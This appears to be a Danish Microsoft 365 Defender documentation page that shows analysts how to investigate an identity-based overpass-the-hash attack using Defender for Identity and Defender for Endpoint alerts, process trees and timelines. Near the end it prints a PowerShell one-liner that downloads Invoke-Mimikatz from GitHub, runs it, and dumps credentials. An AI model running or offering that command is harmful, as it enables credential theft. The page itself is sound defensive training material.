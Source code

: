 ```yaml
---
title: Eksempel på et identitetsbaseret angreb
description: Gennemgå et eksempel på en analyse af et identitetsbaseret angreb.
keywords: hændelser, beskeder, undersøge, korrelation, angreb, maskiner, enheder, brugere, identitet, identitet, postkasse, mail, 365, microsoft, m365, svar på hændelser, cyberangreb
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 2e0b237ad045b98b2bb013399f344db3f20f1919
ms.sourcegitcommit: c1eaea74c8ffce2f9f477c9469342e88e4a70c14
ms.translationtype: MT
ms.contentlocale: da-DK
ms.lasthandoff: 07/20/2022
ms.locfileid: "66893611"
---
```

# <a name="example-of-an-identity-based-attack"></a>Eksempel på et identitetsbaseret angreb

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gælder for:**
- Microsoft 365 Defender

Microsoft Defender for Identity kan hjælpe med at registrere skadelige forsøg på at kompromittere identiteter i din organisation. Da Defender for Identity kan integreres med Microsoft 365 Defender, kan sikkerhedsanalytikere have synlighed ved trusler, der kommer ind fra Defender for Identity, f.eks. mistænkte forsøg på udvidede Netlogon-rettigheder.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse af angrebet i Microsoft Defender for Identity

Microsoft 365 Defender gør det muligt for analytikere at filtrere beskeder efter registreringskilde under fanen **Beskeder** på hændelsessiden. I følgende eksempel filtreres registreringskilden til **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrering af registreringskilden i Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Hvis du vælger den **mistænkte overpass-the-hash angreb** besked går til en side i Microsoft Defender for Cloud Apps, der viser mere detaljerede oplysninger. Du kan altid få mere at vide om en besked eller et angreb ved at vælge **Få mere at vide om denne beskedtype** for at læse en [beskrivelse af angrebs](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) - og afhjælpningsforslag.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="En formodet overpass-the-hash angreb besked" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Undersøgelse af det samme angreb i Microsoft Defender for Endpoint

En analytiker kan også bruge Defender for Endpoint til at få mere at vide om aktiviteten på et slutpunkt. Vælg hændelsen fra hændelseskøen, og vælg derefter fanen **Beskeder** . Herfra kan de også identificere registreringskilden. En registreringskilde, der er mærket som EDR, står for Endpoint Detection and Response, som er Defender for Endpoint. Herfra vælger analytikeren en besked, der er registreret af EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Registrering og svar af slutpunkter på portalen Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

På beskedsiden vises forskellige relevante oplysninger, f.eks. det påvirkede enhedsnavn, brugernavnet, status for den automatiske undersøgelse og oplysningerne om beskeden. Beskedhistorien viser en visuel repræsentation af procestræet. Procestræet er en hierarkisk repræsentation af overordnede og underordnede processer, der er relateret til beskeden.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Et beskedprocestræ i Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Hver proces kan udvides for at få vist flere detaljer. Detaljer, som en analytiker kan se, er de faktiske kommandoer, der blev angivet som en del af et skadeligt script, IP-adresser til udgående forbindelser og andre nyttige oplysninger.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Procesdetaljerne på Microsoft Defender for Endpoint-portalen" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Ved at vælge **Se på tidslinjen** kan en analytiker foretage detailudledning yderligere for at bestemme det nøjagtige tidspunkt for kompromiset. 

Microsoft Defender for Endpoint kan registrere mange skadelige filer og scripts. På grund af mange legitime anvendelser af udgående forbindelser, PowerShell og kommandolinjeaktivitet vil nogle aktiviteter dog blive betragtet som godartede, indtil der oprettes en skadelig fil eller aktivitet. Brug af tidslinjen hjælper derfor analytikere med at sætte beskeden i kontekst med den omgivende aktivitet for at bestemme den oprindelige kilde eller tidspunktet for det angreb, der ellers er tilsløret af almindeligt filsystem og brugeraktivitet. 

Hvis du vil bruge tidslinjen, vil en analytiker starte på tidspunktet for registrering af beskeder (med rødt) og rulle bagud i tiden for at bestemme, hvornår den oprindelige aktivitet, der førte til den skadelige aktivitet, faktisk startede. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analytikerens starttidspunkt for registrering af beskeder" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Det er vigtigt at forstå og skelne mellem almindelige aktiviteter, f.eks. Windows Update forbindelser, windows-aktiveringstrafik, andre almindelige forbindelser til Microsoft-websteder, internetaktivitet fra tredjepart, Microsoft Endpoint Configuration Manager aktivitet og andre godartede aktiviteter fra mistænkelig aktivitet. En måde at skelne på er ved hjælp af tidslinjefiltre. Der er mange filtre, der kan fremhæve bestemte aktiviteter, mens du filtrerer alt, hvad analytikeren ikke vil have vist. 

På billedet nedenfor filtrerede analytikeren kun for at få vist netværks- og proceshændelser. Dette filterkriterium giver analytikeren mulighed for at se netværksforbindelserne og processerne omkring hændelsen, hvor Notesblok oprettede en forbindelse med en IP-adresse, som vi også så i procestræet. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Sådan blev Notesblok brugt til at oprette en skadelig udgående forbindelse" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

I denne særlige hændelse blev Notesblok brugt til at oprette en skadelig udgående forbindelse. Men ofte vil hackere bruge iexplorer.exe til at oprette forbindelser til at downloade skadelige nyttedata, fordi normalt iexplorer.exe processer betragtes som almindelig webbrowseraktivitet.

Et andet element, du kan søge efter på tidslinjen, er PowerShell bruger til udgående forbindelser. Analytikeren vil søge efter vellykkede PowerShell-forbindelser med kommandoer, f.eks `IEX (New-Object Net.Webclient)` . efterfulgt af en udgående forbindelse til et websted, der er vært for en skadelig fil. 

I følgende eksempel blev PowerShell brugt til at downloade og udføre Mimikatz fra et websted:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
En analytiker kan hurtigt søge efter nøgleord ved at skrive nøgleordet i søgelinjen for kun at få vist de hændelser, der er oprettet med PowerShell. 

## <a name="next-step"></a>Næste trin

Se [phishing-undersøgelsesstien](first-incident-path-phishing.md) .

## <a name="see-also"></a>Se også

- [Oversigt over hændelser](incidents-overview.md)
- [Administrer hændelser](manage-incidents.md)
- [Undersøg hændelser](investigate-incidents.md)
